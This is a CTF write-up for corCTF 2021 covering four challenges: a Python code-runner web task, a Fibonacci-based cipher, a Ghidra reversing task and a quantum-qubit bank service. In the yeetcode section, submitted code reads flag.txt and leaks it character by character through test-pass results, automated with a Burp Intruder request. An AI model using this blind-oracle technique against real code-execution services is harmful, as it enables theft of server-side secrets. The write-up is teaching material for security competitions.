

# corCTF 2021

Written by [Balberg Flagg & Service AS](https://ctftime.org/team/152116)
<br>
<br>


---
## misc/yeetcode
### Task
Brush up on your coding skills and ace your next interview with YeetCode! Flag is at ./flag.txt <br>
[https://yeetcode.be.ax](https://yeetcode.be.ax)

When you go to the website you're met with this task:

> Here's a test of your basic operations.This revolutionary problem will change your thinking forever. Given two integers a and b, create a function f(a, b) so that it sums them. For example, f(2, 3) should return 5, and f(5, 7) should return 12. Write your code in the box below:

The site is in [yeetcode](https://github.com/bf-s/CTF-Writeups/main/corCTF-2021/yeetcode/) 

### Writeup
A note before we begin the writeup; We didn't realize the task had andy files with it. So it may have been better soloutions if we actually read the code.
<br>
We quicly understood that the programming language used in the textbox was python. We tried to just print somthing at first, but understood that we didnt get any output. <br>
We continued to solve the task given at the top of the site in python and got "You passed 10/10 test cases. Congrats!" as output when we ran this script:
```python
def f(a, b):
    return a+b
f(1,6)
```
We then tried to print somthing in the def f before we returned the sum and got "You passed 0/10 test cases.". After some more testing we saw that as long as we solved the task, or at least had a way of solving the task in a script we got a boolean as a returned value with 10 as output when we ran the code with no print commands and the correced returned value. <br>
We then tried to read the flag in python and return the same value "a+b" with 10/10 tests passed. This made us try to set a if statement in the code with the condition testing the n'th caracter in the flag like this:
```python
def f(a, b):
  with open('flag.txt', 'r') as r:
    c= r.read()
  if c[0] == 'c':
    return a+b
  else:
    print('test')
f(1,6)
```
Scince we knew the first char in the flag is "c" this should return 10/10 passed, and it did. We knew we had the soloution, but had too much to do if we did it manually. We ended up using intruder in burpsuite with this POST request.
```
POST /yeetyeet HTTP/1.1
Host: yeetcode.be.ax
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://yeetcode.be.ax/yeet
Content-Type: text/plain;charset=UTF-8
Origin: https://yeetcode.be.ax
Content-Length: 136
Connection: close

def f(a, b):
  with open('flag.txt', 'r') as r:
    c= r.read()
  if c[0] == '§1§':
    return a+b
  else
    print('test')
f(1,6)
```
Where §1§ is a payload list with the characters abcdefghijklmnopqrstuvwxyz1234567890!#-.,{}()-_ with one char on each line. We manually switched the char we were testing in c after each hit and got the flag at last.
Flag:
```
corctf{1m4g1n3_cp_g0lf_6a318dfe}
```
---

## crypto/fibinary

### About the task
**Task description:**
*Warmup your crypto skills with the superior number system!*

**Task files:**
[enc.py](https://corctf2021-files.storage.googleapis.com/uploads/cbc718b0b14f91af5c231ed0b6091d2336484619d536bce505a34fa27ec90be8/enc.py), [flag.enc](https://corctf2021-files.storage.googleapis.com/uploads/034184c574279b6889c553d222d2f8c8f1725b56f70f9acb4bc716bc7cabf8df/flag.enc)

**Task author:**
*quintec*

**Task url:**
*https://2021.cor.team/challs*

### Write-up
After reading the task description and quickly looking at the files we are given a few things immediately stand out:
The file flag.enc seems to be written in some sort of binary
The enc.py program uses a homemade algorithm to encrypt the contents of "flag.txt".

The algorithm seems to rely on non-destructive mathematical operators, like addition and subtraction.
The fib variable looks and sounds like a fibbonachi sequence.

The flag.enc looks like a binary file, but if you attempt to paste it into cyberchef, or any other program that decodes binary, you will quickly see that it does not contain the flag in plaintext. Therefore we have to look at the program that made the file, enc.py.

```python
fib = [1, 1]
for i in range(2, 11):
	fib.append(fib[i - 1] + fib[i - 2])

def c2f(c):
	n = ord(c)
	b = ''
	for i in range(10, -1, -1):
		if n >= fib[i]:
			n -= fib[i]
			b += '1'
		else:
			b += '0'
	return b


flag = open('flag.txt', 'r').read()
enc = ''
for c in flag:
	enc += c2f(c) + ' '
with open('flag.enc', 'w') as f:
	f.write(enc.strip())
```

Working backwards through enc.py you can see that the string that is written to flag.enc is first generated by sending one character at a time into the function 'c2f()'. An annotated version of enc.py can be found [here](fibinary/enc.py), but in short: c2f() transforms the character into an ASCII value and does a number of checks on it with the 11 first numbers in the fibbonachi sequence. From one character that is passed into c2f, 8 'bits' are returned and written to flag.enc. I say 'bits' cause even though it is written in groups of 8 with 1's and 0's the numbers that return represent values differently than normal binary numbers would.

The next step is to make a python program of our own that can reverse the effect enc.py had on the flag. My "dec.py" program simply used a function that did the exact opposite of the c2f() function. In a great burst of creativity I decided to call it "f2c()":

```python
fib = [1, 1, 2, 3, 5, 8, 13, 21, 34, 55, 89]

def f2c(c):
	cDec = 0
	for i in range(0,10):
		if c[i] == '1':
			cDec += fib[10-i]
	return chr(cDec)

flagEnc = open('flag.enc','r').read().split()
flag = ''
for c in flagEnc:
	flag += f2c(c)
print(flag)
```
 
Running this program decrypts the flag.enc file and returns the flag:

<details>
<summary> Flag </summary>
<pre> <b> corctf{b4s3d_4nd_f1bp!113d}</b> </pre>
</details>


## rev/babyrev

### About the task
**Task description:**
*well uh... this is what you get when you make your web guy make a rev chall*

**Task files:**
[babyrev.tar.xz](https://corctf2021-files.storage.googleapis.com/uploads/13d76fd64af3b5265a84197bc403acf2a7fbbf820dc83e8e9d8e741e06a2026a/babyrev.tar.xz)

**Task author:**
*Strellic*

**Task url:**
*https://2021.cor.team/challs*

### Write-up
As my experience with solving rev challenges is very limited my tactic going into this task was to just open the executable file with [Ghidra](https://ghidra-sre.org/) and hope that I would be able to understand the programflow in the main() function.


Viewing the C-code generated by Ghidra is still not very intuative, so the first thing to do is to go through the code and make it more readable. To do this every function that is used in the code has to be understood, and variable names should be changed to something that makes sense. I also used comments a lot to keep track of what the different variables represented at different times, and what the program was doing.


Much like the task fibinary (just above) this task also uses a lot of code to generate an array of numbers that is identical every time the program is run. In this case this happens on the lines 37-46, where a determinable array of primes is generated: 
<details>
<summary> Array of primes</summary>
<rev> [2,5,11,13,17,23,29,29,37,37,41,47,53,53,59,61,67,71,73,79] </rev>
</details>

These primes where then used as bases to rotate each character in the secret part of the flag with. In order to understand what kind of rotation was done to these characters we have to examine the function *rot_n()*. Since Ghidra is nice enough to show us the implementation of the function when we double-click it this is not too hard:


I did very little to make this auto generated code more readable, since all I was really interested in was the properties of the rotation function. I.e:
* Does the rotation function rotate letters into symbols? [No]
  * If not, does the function rotate lower-case letters into upper-case letters? [No]
* Does the function rotate symbols, and if so how? [Does not rotate symbols]
* Does the function really rotate each character by the amount given to it, or is it trying to fool us? [It really does rotate by the given amount]

Now looking at the code in the main() function again on line 57-62. We can see that the flag rotated by this function is supposed to return the variable that is defined as *'check'* (it is worth noting that I did not rename this variable, it simply showed up in Ghidra with that name). So if we can read the check variable and reverse the effect of the rotation function on each byte we should be able to recover the secret part of the flag. To read the check variable it is once again a simple case of double-clicking it:

<details>
<summary> check: </summary>


```
check = {0x5f,0x40,0x5a,0x15,0x75,0x45,0x62,0x53,0x75,0x46,0x52,0x43,0x5f, 0x75,0x50,0x52,0x75,0x5f,0x5c,0x4f}
```

</details>

Before trying to decrypt these values however it is important to note line 57 in the main() function, where each byte in *check* is transformed the memfrob() function. The [memfrob()](https://linux.die.net/man/3/memfrob#:~:text=The%20memfrob()%20function%20encrypts,on%20the%20encrypted%20memory%20area.) function does an XOR by 42 on each byte in an array or character in a string. Since this happens before the comparison between the *flagSecret* variable and the *check* variable we need to apply this tranformation to the values in *check* to get the encrypted part of the flag. To do this I used [Cyberchef](https://gchq.github.io/CyberChef/) to do a new [XOR by 42 on all the bytes in *check*](https://gchq.github.io/CyberChef/#recipe=From_Hex('0x%20with%20comma')XOR(%7B'option':'Decimal','string':'42'%7D,'Standard',false)To_Hex('0x%20with%20comma',0)&input=MHg1ZiwweDQwLDB4NWEsMHgxNSwweDc1LDB4NDUsMHg2MiwweDUzLDB4NzUsMHg0NiwweDUyLDB4NDMsMHg1ZiwgMHg3NSwweDUwLDB4NTIsMHg3NSwweDVmLDB4NWMsMHg0Zg):


Given the encrypted flag (the transformed check values) and the function of the rotation function I was able to construct a python program that reversed the rotation cipher:

```python
import sympy
import string

check = [0x75,0x6a,0x70,0x3f,0x5f,0x6f,0x48,0x79,0x5f,0x6c,0x78,0x69,0x75,0x5f,0x7a,0x78,0x5f,0x75,0x76,0x65]

#check = [0x41,0x42,0x43]

ascii_lower = string.ascii_lowercase
ascii_upper = string.ascii_uppercase


for n in range(len(check)):
    bNum = n * 4
    while(True):
        if sympy.isprime(bNum):
            #print(bNum,end=",")
            break
        bNum += 1
    charToPrint = check[n]
    if(64 < check[n] < 91):
        charToPrint = ord(ascii_upper[((check[n] - 65) - bNum) % 26])
    if(96 < check[n] < 123):
        charToPrint = ord(ascii_lower[((check[n] - 97) - bNum) % 26])
    print(chr(charToPrint),end="")
```
Which leaves us with the flag:
<details>
<summary> Flag: </summary>
<b> 

```
corctf{see?_rEv_aint_so_bad}
```
</b>
</details>


## crypto/bank
### About the task
**Task description:**
*To keep up with the latest trends CoR is introducing a quantum bank for all your secure banking needs. Unfortunately no one on CoR actually knows how quantum computing works, least of all me...*
```
nc crypto.be.ax 6005
```


**Task files:**
[bank.zip](https://corctf2021-files.storage.googleapis.com/uploads/88f854c323bb5c45590c202711634ff1c9d2ab5a71f8da530cbbf7ca4dd2ee3f/bank.zip)

**Task author:**
*quintec*

**Task url:**
*https://2021.cor.team/challs*

### Write-up
Since this is a task that relies on using a nc-session it is usually smart to make a plan for what to do once you actually connect to the server. We are given server.py which seems to be the python file for the server, so analyzing that code should be enough to grant us a good enough understanding of the task.

#### Understanding the program


The first thing I noticed was this enticing option to buy the flag from the server. Let's have a look at what it does:


From what we can see here it is clear that we need to enter "our bill". By looking around the code some more we will see that *bill* is an array tied to our session.



What line 74 does is it selects a random symbol from the *symbols* array and imput as 50 different elements in the *bill* array. To understand this better we can run the python program in vsCode debugger to view an example of a *bill* array.


If you were to scroll down in this window you would see that the array *bill* is indeed 50 elements long and only consists of '1','0','+', and '-'.

Now the question is: How do we determine the values of the *bill* array without using a debugger? Well on line 83 it says that we can *work with qubits*, so let us try that and see what options we get.


Lines 103-133 are blue because I have chosen to collapse (hide) them. This is just to avoid them drawing attention and causing unnecessary confusion.

On line 89 we are given the option to choose what element of the bill to inspect, each element is called a qubit in this program. We are also given the option to measure the qubit on a '1/0 basis' or '+/- basis'. This seems promising, so let us investigate what happens when we choose them.


Both of these options call the function *qubits[].measure()*, so let us have a look at what that function does.


On line 32 we can see what happens if we try to measure in the '0/1' basis. Instead of trying to understand the math that goes into this line we are going to use the debugger in vsCode again to examine what happens when you reach this point in the code.


As shown in the pictures above. If you measure 1 or 0 with the '0/1' basis you are going to get a predictable outcome. Since the random.random() function only returns numbers between 0 and 1, we can also say that the outcomes of measuring 0/1 qubits with the 0/1 basis is also accurate.

However if you measure +/- qubits with the 0/1 basis you have a 50%/50% chance of the measurement returning 0 or 1, so it will not return an accurate measurement. On line 33 and 36 we can also see that when we get a result from the measure function the self.vec variable is changed so that any future measurements also will return the same result. F.ex. if a + qubit is measured with a 0/1 basis and returns 0, then the next time it is measured with a 0/1 basis it will also return 0.

When measurements are made in the +/- basis the same properties apply. 0/1 qubits measured in +/- basis will randomly select an outcome the first time and return that same outcome if they are tested repeatedly with +/- basis.

If you measure a qubit with the wrong basis it will however also mean that when you try to measure it with the correct basis it will randomly select an outcome and change its self.vect value so that it always returns that same outcome. In other words: if a 0/1 qubit is measured with +/- it will no longer be possible to determine if the qubit is 0/1 by doing measurements, even if the right basis is selected afterwards.

So maybe some of the other options from the 'work with qubits' menu can help us solve this problem. There is one option that draws attention on line 100 it says that we can 'verify qubit'. Let us have a look at what this does:


So it appears that the verify option measures the qubit in the correct basis, and check if the returning value is correct. This means that if you have measured a qubit with the wrong basis and then try to verify it there is a 50/50 chance of it returning 'Qubit successfully verified' or 'Incorrect qubit'. Therefore this verification cannot tell us if we measured correctly, but it could potentially tell us if we measured incorrectly.

#### Solving the task

At this point it is time to start exploring what the other option for handling qubits are. I started out by testing the Hadamard gate at line 96, but quickly figured it does not do anything useful (atleast not when applied once with no other gates in combination). The next gate I examined did however yield interesting results. This was the 'X gate'.


This seems like 3 really uneventfull lines of code however they hold the key to solving the task. After some structured testing I figured out that by applying the 'X gate' first to an unknown qubit and then trying to verify it the verification will ALWAYS return 'successful' when the qubit has a basis of +/1 and ALWAYS return 'incorrect' when the qubit has a basis of 0/1.

It turns out that the x gate will inverse any qubit that is in the 0/1 basis and not do anything to qubits that are in the +/- basis. Therefore we can now make our tactic for how to reliably find out the value of qubits:

1. Apply an x-gate
2. Try to verify the qubit
* If it fails &#8594; apply a new x-gate &#8594; *measure with 0/1 basis*
* If it succeeds &#8594; *measure with +/- basis*

There are still 50 elements in the array *bill* so I decided to automate the rest of the task with a python program. If you choose to try applying the solution manually you will find that the connection will be by the server after a little while, so you cannot really get all the qubits in "your bill". I used pwntools to control my nc connection and wrote the following python program to get the flag:

```python
from pwn import *

def findQbit(index):
    index = str(index)
    conn.sendline('1'.encode('utf-8'))
    conn.recvuntil('Please input the index of the qubit you wish to work with:'.encode('utf-8'))
    conn.sendline(index.encode('utf-8'))
    conn.recvuntil('> '.encode('utf-8'))
    conn.sendline('1'.encode('utf-8'))
    conn.recvuntil('> '.encode('utf-8'))
    conn.sendline('8'.encode('utf-8'))

    verifyResult = conn.recvline()
    verifyResult = (verifyResult == b'Qubit successfully verified.\n')
    qBitResult = -1
    if (verifyResult):
        conn.recvuntil('> '.encode('utf-8'))
        conn.sendline('7'.encode('utf-8'))
        testResult = conn.recvline()
        conn.recvuntil('> '.encode('utf-8'))
        if ('+' in testResult.decode('utf-8')):
            qBitResult = '+'
        else:
            if('-' in testResult.decode('utf-8')):
                qBitResult = '-'
    else:
        conn.recvuntil('> '.encode('utf-8'))
        conn.sendline('1'.encode('utf-8'))
        conn.recvuntil('> '.encode('utf-8'))
        conn.sendline('6'.encode('utf-8'))
        testResult = conn.recvline()
        conn.recvuntil('> '.encode('utf-8'))
        if ('1' in testResult.decode('utf-8')):
            qBitResult = '1'
        else:
            if('0' in testResult.decode('utf-8')):
                qBitResult = '0'

    conn.sendline('9'.encode('utf-8'))
    conn.recvuntil('> '.encode('utf-8'))

    return qBitResult

conn = remote('crypto.be.ax',6005)

conn.recvuntil('Would you like an account? (y/n)'.encode('utf-8'))
conn.sendline('y'.encode('utf-8'))
conn.recvuntil('> '.encode('utf-8'))
bill = [-1] *50
try:
    for i in range(0,50):
        bill[i] = findQbit(i)
except EOFError:
    print(conn.recvall)

conn.sendline('2'.encode('utf-8'))
conn.recvuntil('Enter your bill:'.encode('utf-8'))
conn.sendline(("".join(bill)).encode('utf-8'))
print(conn.recvline().decode('utf-8'))
conn.close()
```

This program might seeem daunting at first, but most of the lines are just sending or receiving data over the nc-connection. The only real logic in this program is exactly the tactic I described above.

<details>
<summary> Flag </summary>

```
corctf{4lw4ys_d3str0y_y0ur_f4k3s}
```

</details>
